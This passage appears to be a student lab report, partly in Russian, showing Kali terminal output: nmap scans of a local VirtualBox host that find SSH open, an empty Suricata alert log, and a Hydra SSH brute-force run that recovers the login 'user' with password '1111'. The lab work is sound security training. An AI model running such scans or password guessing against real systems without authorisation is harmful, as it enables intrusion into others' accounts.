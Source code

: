 Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds

┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.0.183
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-28 03:20 EST
Nmap scan report for user-VirtualBox.Dlink (192.168.0.183)
Host is up (0.00021s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 08:00:27:1A:EF:56 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds

┌──(root㉿kali)-[/home/kali]
└─# nmap -sV 192.168.0.183
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-28 03:20 EST
Nmap scan report for user-VirtualBox.Dlink (192.168.0.183)
Host is up (0.00042s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
MAC Address: 08:00:27:1A:EF:56 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.62 seconds

nmap просканировал tcp порты и нашел открытый порт 22 (SSH)
root@user-VirtualBox:/home/user# tail -f /var/log/suricata/fast.log
^C
root@user-VirtualBox:/home/user#




### Заданиe 2
┌──(root㉿kali)-[/home/kali]
└─# hydra -L users.txt -P pass.txt 192.168.0.183 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-28 03:09:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://192.168.0.183:22/
[22][ssh] host: 192.168.0.183   login: user   password: 1111
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-28 03:09:06
